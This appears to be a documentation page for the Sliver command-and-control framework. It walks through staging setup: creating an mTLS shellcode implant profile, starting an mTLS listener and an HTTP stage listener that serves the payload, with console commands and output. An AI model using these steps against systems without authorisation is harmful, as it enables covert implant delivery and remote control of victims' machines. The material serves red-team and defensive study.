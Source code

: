 Sliver payloads can be large. As such, a stager can be used to execute an implant on a target. A stager is a small program or script that fetches the main payload from a remote location. While size doesn't matter as much in computing world anymore, hiding a full-sized implant can be difficult in certain circumstances.  

Sliver can generate stagers or a custom one can be used.

The following is needed to set up a stager in Sliver:  

1. A staging server (Your sliver server)
2. A stage 2 payload (the main sliver payload, typically in shellcode)
3. The stager (Can be generated with the ```generate stager``` command or custom-made)  

### Stager setup

Sliver staging uses the profiles feature. Profiles work as implant blueprints that define configuration information. Profiles can be created with ```profiles new``` command.

In this example, we will serve an mTLS implant.  
```
sliver > profiles new --mtls 198.18.103.68 --format shellcode win-shellcode

[*] Saved new implant profile win-shellcode

sliver > profiles

 Profile Name    Implant Type   Platform        Command & Control               Debug   Format      Obfuscation   Limitations 
=============== ============== =============== =============================== ======= =========== ============= =============
 win-shellcode   session        windows/amd64   [1] mtls://198.18.103.68:8888   false   SHELLCODE   enabled                                    

sliver >  
```  
With the profile setup, a listener for the mTLS implant is required.  
```
sliver > mtls

[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888
```

A staging listener can then be created with the ```stage-listener``` command and linked to a new profile:  

```
sliver > stage-listener --url http://198.18.103.68:80 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   http  tcp       80  
2   mtls  tcp       8888 
```
